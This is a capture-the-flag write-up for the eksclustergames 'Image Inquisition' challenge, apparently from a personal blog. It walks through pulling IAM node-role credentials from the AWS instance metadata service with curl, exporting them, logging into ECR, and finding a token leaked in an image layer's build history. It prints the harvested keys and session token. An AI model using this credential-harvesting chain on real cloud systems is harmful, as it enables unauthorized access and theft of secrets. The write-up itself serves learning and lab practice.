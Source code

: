 ```yaml
---
title: Image Inquisition - eksclustergames | 10 points
date: 2023-12-29 12:00:00 +100
categories: [eksclustergames, ctf, image-inquisition]
tags: [ctf, eksclustergames, image-inquisition]
---
```


# Challenge Description
>A pod's image holds more than just code. Dive deep into its ECR repository. Inspect the image layers, and uncover the hidden secret. You can also check the required K8s Cheat Sheet for this challenge within this page.
{: .prompt-info } 

If you check permissions, it's listed that we have `list and get pods` permissions. So, let's start with listing the pods.

>You can also check the permission using `kubectl` command as mentioned below.
```bash
root@wiz-eks-challenge:~# kubectl auth can-i list pod
yes
root@wiz-eks-challenge:~# kubectl auth can-i get pod
yes
```
{: .prompt-tip }

### List pods

```bash
root@wiz-eks-challenge:~# kubectl get pods
NAME                      READY   STATUS    RESTARTS      AGE
accounting-pod-876647f8   1/1     Running   1 (22d ago)   58d
```

As it's only one pod to focus, we can simply start with checking it's image (hint in the challenge description).

### Contianer Image

```bash
root@wiz-eks-challenge:~# kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}'
688655246681.dkr.ecr.us-west-1.amazonaws.com/central_repo-aaf4a7c@sha256:7486d05d33ecb1c6e1c796d59f63a336cfa8f54a3cbc5abf162f533508dd8b01
```

It's clear that the image is in ECR so obviously we need to run some AWS commands to go ahead.


```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity

Unable to locate credentials. You can configure credentials by running "aws configure".
```

As the above command asked to login, we need to use the AWS Instance metadata service (IMDS) to get through it. Let's perform some required steps to login and get the Docker image from ECR.

### Instance Metadata Service (IMDS) to get IAM instance credentials

```bash
root@wiz-eks-challenge:~# curl http://169.254.169.254/latest/meta-data/iam/security-credentials
eks-challenge-cluster-nodegroup-NodeInstanceRole
```

### Get credentials

```bash
root@wiz-eks-challenge:~# curl -s 169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole | jq
{
  "AccessKeyId": "ASIA2AVYNEVM5QQU66N7",
  "Expiration": "2023-12-29 20:58:18+00:00",
  "SecretAccessKey": "8GFVVYgetRLMjTjjr0mQLLqCF9uNr0S7kSps+Mgn",
  "SessionToken": "FwoGZXIvYXdzEGUaDNIXeVNvbqF/NCkkdSK3AQiqCvidXKUztR2XOKM5t0iLlMLFlbjNiqd6pPjL6NrvTzZJ09e5TNmZ+Td1/mwvfVW9By5Tcrro0UHGTuLANkHR5klulXmAkCayYkiWtVXnKhAf6HMldwygnVX4Pygmd/k+y1lug+M7eeu6yLTUUBUSCkV+Fq0ofue4Bgz4ggxUTdIcu/NthDsVmucZX4AHsXIlCo8gc560vLK1b9P8i2cMIoVLKdeJLBUvxX80mAxsCdj2mZiRAijaybysBjItqjCqxmtmypWSBi/v354O9ziG5LqgzUldsGNBmJD1uOt1DxUs0qVy6VrUvfN/"
}
```

### Set AWS credential ENVs using inline bash command

```bash
root@wiz-eks-challenge:~# JSON="$(curl -s http://169.254.169.254/latest/meta-data/iam/security-credentials/eks-challenge-cluster-nodegroup-NodeInstanceRole)"; export AWS_ACCESS_KEY_ID="$(echo "$JSON" | jq -r .
AccessKeyId)"; export AWS_SECRET_ACCESS_KEY="$(echo "$JSON" | jq -r .SecretAccessKey)";export AWS_SESSION_TOKEN="$(echo "$JSON" | jq -r .SessionToken)";
```

### Confirm permission using `sts:GetCallerIdentity`

```bash
root@wiz-eks-challenge:~# aws sts get-caller-identity | jq
{
    "UserId": "AROA2AVYNEVMQ3Z5GHZHS:i-0cb922c6673973282",
    "Account": "688655246681",
    "Arn": "arn:aws:sts::688655246681:assumed-role/eks-challenge-cluster-nodegroup-NodeInstanceRole/i-0cb922c6673973282"
}
```

### Login using AWS cli and Crane

```bash
root@wiz-eks-challenge:~# aws ecr get-login-password | crane auth login --username AWS --password-stdin 688655246681.dkr.ecr.us-west-1.amazonaws.com
2023/12/29 20:11:42 logged in via /home/user/.docker/config.json
```

>Pull image from ECR using `Crane` (pre installed) else you can use `dive` also. 
```bash
crane pull "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" /tmp/image.tar
```
{: .prompt-tip }

Initially it was mentioned in this Challenge that, we need to check the image layers for getting the flag. For that, I chose `Crane` as it was mentioned that this tool is already installed else `dive` is also a nice choise for this.

### Check the config of the image

```bash
root@wiz-eks-challenge:~# crane config "$(kubectl get pods -o=jsonpath='{range .items[*]}{range .spec.containers[*]}{.image}{"\n"}{end}{end}')" | grep -i "wiz_eks_challenge"
{"architecture":"amd64","config":{"Env":["PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"],"Cmd":["/bin/sleep","3133337"],"ArgsEscaped":true,"OnBuild":null},"created":"2023-11-01T13:32:07.782534085Z","history":[{"created":"2023-07-18T23:19:33.538571854Z","created_by":"/bin/sh -c #(nop) ADD file:7e9002edaafd4e4579b65c8f0aaabde1aeb7fd3f8d95579f7fd3443cef785fd1 in / "},{"created":"2023-07-18T23:19:33.655005962Z","created_by":"/bin/sh -c #(nop)  CMD [\"sh\"]","empty_layer":true},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"RUN sh -c #ARTIFACTORY_USERNAME=challenge@eksclustergames.com ARTIFACTORY_TOKEN=wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future} ARTIFACTORY_REPO=base_repo /bin/sh -c pip install setuptools --index-url intrepo.eksclustergames.com # buildkit # buildkit","comment":"buildkit.dockerfile.v0"},{"created":"2023-11-01T13:32:07.782534085Z","created_by":"CMD [\"/bin/sleep\" \"3133337\"]","comment":"buildkit.dockerfile.v0","empty_layer":true}],"os":"linux","rootfs":{"type":"layers","diff_ids":["sha256:3d24ee258efc3bfe4066a1a9fb83febf6dc0b1548dfe896161533668281c9f4f","sha256:9057b2e37673dc3d5c78e0c3c5c39d5d0a4cf5b47663a4f50f5c6d56d8fd6ad5"]}}
```

and the flag is

>wiz_eks_challenge{the_history_xx_xxxxxxxxx_xxxxx_xxxxx_reveal_the_secrets_to_the_future}
{: .prompt-info }
